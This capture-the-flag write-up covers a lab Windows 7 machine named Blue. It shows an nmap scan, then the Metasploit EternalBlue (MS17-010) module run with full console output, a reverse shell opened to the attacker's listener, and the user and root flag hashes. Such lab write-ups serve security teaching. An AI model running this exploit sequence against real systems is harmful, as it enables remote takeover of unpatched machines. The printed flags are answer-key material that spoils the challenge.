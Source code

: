 # MACHINE CHALLENGE: BLUE

## Challenge Description

##### Own system
Type below the hash that is inside the root.txt file in the machine. The file
can be found under /root on Linux machines and at the Desktop of the
Administrator on Windows.

##### Own User
Type below the hash that is inside the user.txt file in the machine. The file
can be found under /home/{username} on Linux machines and at the Desktop of the
user on Windows. 

```
IP Address: 10.10.10.40
OS: Windows
```

### NAME OF THE MACHINE AS A HINT?

Since this is a `Windows` box, perhaps this is in reference to the recent
`ETERNALBLUE` exploit?

```
https://en.wikipedia.org/wiki/EternalBlue

EternalBlue, sometimes stylized as ETERNALBLUE, is an exploit developed by the
U.S. National Security Agency (NSA) according to testimony by former NSA
employees. It was leaked by the Shadow Brokers hacker group on April 14, 2017,
and was used as part of the worldwide WannaCry ransomware attack on May 12,
2017. The exploit was also used to help carry out the 2017 NotPetya cyberattack
on June 27, 2017 and reported to be used as part of the Retefe banking trojan
since at least September 5, 2017.

EternalBlue exploits a vulnerability in Microsoft's implementation of the Server
Message Block (SMB) protocol. This vulnerability is denoted by entry
CVE-2017-0144 in the Common Vulnerabilities and Exposures (CVE) catalog. The
vulnerability exists because the SMB version 1 (SMBv1) server in various
versions of Microsoft Windows mishandles specially crafted packets from remote
attackers, allowing them to execute arbitrary code on the target computer.
```

### PORTSCANNING w/ NMAP

Use `nmap` to see if we can detect what services our host is offering, what
operating system (and version) our host is running, what type of packet
filters/firewalls are in use, etc.

```
$ sudo nmap -A -sS -T4 10.10.10.40 > nmap.out
Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-21 17:44 EST
Nmap scan report for 10.10.10.40
Host is up (0.39s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
```

So we have 3 open service running - msrpc(135,49152-49157), netbios-ssn(139),
microsoft-ds(445). Host OS is Windows 7 Profession 7601 Service Pack 1. 

```
https://en.wikipedia.org/wiki/Server_Message_Block

Since Windows 2000, SMB runs, by default, with a thin layer, similar to the
Session Message packet of NBT's Session Service, on top of TCP, using TCP port
445 rather than TCP port 139—a feature known as "direct host SMB".
```

So the microsoft-ds(445) service suddenly pops out as being interesting with
its tie in to the ETERNALBLUE exploit.

### MS17_010_ETERNALBLUE

Googling around for a metasploit package to exploit the ETERNALBLUE
vulnerability leads us to this one..

```
https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue

MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption

This module is a port of the Equation Group ETERNALBLUE exploit, part of the
FuzzBunch toolkit released by Shadow Brokers. There is a buffer overflow
memmove operation in Srv!SrvOs2FeaToNt. The size is calculated in
Srv!SrvOs2FeaListSizeToNt, with mathematical error where a DWORD is subtracted
into a WORD. The kernel pool is groomed so that overflow is well laid-out to
overwrite an SMBv1 buffer. Actual RIP hijack is later completed in
srvnet!SrvNetWskReceiveComplete. This exploit, like the original may not
trigger 100% of the time, and should be run continuously until triggered. It
seems like the pool will get hot streaks and need a cool down period before the
shells rain in again. The module will attempt to use Anonymous login, by
default, to authenticate to perform the exploit. If the user supplies
credentials in the SMBUser, SMBPass, and SMBDomain options it will use those
instead. On some systems, this module may cause system instability and crashes,
such as a BSOD or a reboot. This may be more likely with some payloads.
```

So let's give it a try!

```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs


msf exploit(ms17_010_eternalblue) > set TARGET 0
TARGET => 0
msf exploit(ms17_010_eternalblue) > set RHOST 10.10.10.40
RHOST => 10.10.10.40
msf exploit(ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.16.124:4444 
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.10.40:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.10.40:445 - Sending all but last fragment of exploit packet
[*] 10.10.10.40:445 - Starting non-paged pool grooming
[+] 10.10.10.40:445 - Sending SMBv2 buffers
[+] 10.10.10.40:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.10.10.40:445 - Sending final SMBv2 buffers.
[*] 10.10.10.40:445 - Sending last fragment of exploit packet!
[*] 10.10.10.40:445 - Receiving response from exploit packet
[+] 10.10.10.40:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.10.40:445 - Sending egg to corrupted connection.
[*] 10.10.10.40:445 - Triggering free of corrupted buffer.
[*] Command shell session 1 opened (10.10.16.124:4444 -> 10.10.10.40:49158) at 2017-12-22 15:40:58 -0500
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

Holy crap.. we have a session!

### OWN USER

```
C:\Windows\system32> cd C:\Users
C:\Users>dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of c:\Users

21/07/2017  06:56    <DIR>          .
21/07/2017  06:56    <DIR>          ..
21/07/2017  06:56    <DIR>          Administrator
14/07/2017  13:45    <DIR>          haris
12/04/2011  07:51    <DIR>          Public
               0 File(s)              0 bytes
               5 Dir(s)  14,170,099,712 bytes free

C:\Users\haris\Desktop>cd haris\Desktop
C:\Users\haris\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users\haris\Desktop

21/07/2017  06:54    <DIR>          .
21/07/2017  06:54    <DIR>          ..
21/07/2017  06:54                32 user.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  14,170,099,712 bytes free
C:\Users\haris\Desktop>type user.txt.txt
type user.txt.txt
4c546aea7dbee75cbd71de245c8deea9
```

### OWN MACHINE

```
C:\Users\haris\Desktop>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Users\Administrator\Desktop

21/07/2017  06:56    <DIR>          .
21/07/2017  06:56    <DIR>          ..
21/07/2017  06:57                32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  14,169,812,992 bytes free

C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
ff548eb71e920ff6c08843ce9df4e717
```
